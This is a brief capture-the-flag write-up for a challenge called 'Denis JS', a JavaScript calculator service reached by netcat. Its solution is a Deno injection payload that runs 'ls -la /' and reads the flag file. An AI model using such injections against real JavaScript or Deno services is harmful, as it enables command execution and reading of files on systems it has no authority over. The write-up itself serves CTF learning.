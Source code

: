 # Denis JS

## Question

Author: Dimas & ayapi

Hello guys, Denis just make a simple calculator in js, can you try it?

## Solution

```nc ctf.tcp1p.team <Port>```

```js
Deno["run"]({ cmd: ["ls", "-la", "/"], stdout: "piped" }).output().then(output => { console.log(new TextDecoder().decode(output));});


console.log(Deno.readTextFileSync("/flag-af9bc2b0e080a36f66549ba2d790529e"));
```
